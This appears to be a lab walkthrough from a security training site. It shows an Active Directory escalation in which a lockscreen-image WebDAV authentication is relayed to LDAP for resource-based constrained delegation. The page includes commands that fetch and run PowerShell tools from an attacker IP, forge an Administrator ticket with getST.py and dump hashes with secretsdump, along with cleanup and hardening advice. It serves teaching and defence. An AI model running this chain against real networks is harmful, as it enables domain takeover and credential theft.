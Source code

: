 ```yaml
---
description: >-
  Abuse the lockscreen image changing functionality to achieve a webdav network
  authentication as SYSTEM from the given computer. Then relay the
  authentication to the Active Directory LDAP service in or
---
```


# Change-LockScreen

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open PowerShell and execute the following command to enable WebDav.

```
Install-WindowsFeature WebDAV-Redirector –Restart
```

2\. After the server restarts Open the "Windows Defender Firewall" to open up the SMB port.

![](<../../../../.gitbook/assets/image (38) (1) (1).png>)

3\. Click on "Allow an app or feature through Windows Defender Firewall"

![](<../../../../.gitbook/assets/image (2) (1) (1).png>)

4\. Select "File and Printer sharing" and click on "OK"

![](<../../../../.gitbook/assets/image (23) (1) (1) (1).png>)

## Attacking

### How it works

Abuse the lockscreen image changing functionality to achieve a webdav network authentication as SYSTEM from the given computer. Then relay the authentication to the Active Directory LDAP service in order to set up Resource-Based Constrained Delegation to that specific machine.

### Tools

* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)
* [Change-LockScreen](https://github.com/nccgroup/Change-Lockscreen)
* [Impacket](https://github.com/SecureAuthCorp/impacket)

### Executing the attack

#### Prerequisite

* Low priv shell on a machine
* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* WebDAV Redirector feature must be installed on the victim machine. (W10 has it by default, but manually installed on server 2016 and later)
* A DNS record pointing to the attacker’s machine (By default authenticated users can do this)

#### Executing the attack

1. It is expected that a low privileged shell is already gained on `Web01` through the SQL server.

{% content-ref url="../../sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../../sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

2\. Get the machine account Qouta from the domain with crackmapexec:

```
crackmapexec ldap 10.0.0.5 -u richard -p Sample123 -M MAQ
```

![](<../../../../.gitbook/assets/image (9) (1) (1) (1).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

2\. Create machine account `FAKE01` with password `123456` with PowerMad:

```
iex (iwr http://192.168.248.3:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../../.gitbook/assets/image (56) (1).png>)

3\. Create a DNS record for webdav to our attacking machine with Invoke-DNSUpdate. The DNS record is required for webdav connection to work. It won't connect through an IP only with a hostname.

```
iex (iwr http://192.168.248.3:8090/Invoke-DNSUpdate.ps1 -usebasicparsing)
Invoke-DNSUpdate -DNSType A -DNSName webdav.amsterdam.bank.local -DNSData 192.168.248.3 -Realm amsterdam.bank.local
```

![](<../../../../.gitbook/assets/image (19) (1) (1).png>)

We now have all our prerequisites. Time to escalate our privileges.

4\. Run NTLMRelay on our Kali machine and set it up so it will write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute that allows our created computerobject `FAKE01` to actonbehalf `WS01`:

```
python3 /opt/impacket/examples/ntlmrelayx.py -t ldap://10.0.0.3 --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg
```

![](<../../../../.gitbook/assets/image (34) (1).png>)

5\. Run the Change-LockScreen tool in the shell of WS01 and check the ntlmrelay output. The Change-LockScreen command will give an error but this doesn't matter:

```
iex (iwr http://192.168.248.3:8090/Change-Lockscreen.ps1 -usebasicparsing)
change-lockscreen -webdav \\webdav@80\
```

![](<../../../../.gitbook/assets/image (1) (1).png>)

When we check the ntlmrelay output we see that `FAKE01` can now impersonate users on `WEB01`.

![](<../../../../.gitbook/assets/image (64) (1) (1) (1) (1).png>)

If we open the attribute editor on DC02 for WEB01 we can see the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute:

![](<../../../../.gitbook/assets/image (51) (1) (1).png>)

6\. Create a ticket using `FAKE01` impersonating the domain admin `Administrator` using impackets getST.py. Fill in the password `123456`.

```
getST.py amsterdam/FAKE01@10.0.0.5 -spn cifs/web01.amsterdam.bank.local -impersonate administrator -dc-ip 10.0.0.3
```

![](<../../../../.gitbook/assets/image (32) (1) (1).png>)

7\. Use this ticket and run `secretsdump.py` to dump the local admin hashes of `WEB01`.

```
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass web01.amsterdam.bank.local
```

![](<../../../../.gitbook/assets/image (44) (1) (1) (1) (1).png>)

### Cleanup

1. Login to `DC02` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `WEB01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity web01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

4\. Open "DNS Manager" and expand DC02 --> Forward Lookup Zones --> and click on `Amsterdam.bank.local.`Remove the DNS-record created for webdav:

![](<../../../../.gitbook/assets/image (33) (1) (1).png>)

4\. From our Kali machine set the SQL server settings back:

```
mssql-cli -S 10.0.0.5 -U sa -P sa
EXEC sp_configure 'xp_cmdshell',0
RECONFIGURE
EXEC sp_configure 'show advanced options',0
RECONFIGURE
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

* Remove the WebDav client from servers and workstations.

### Detection



## References

{% embed url="https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

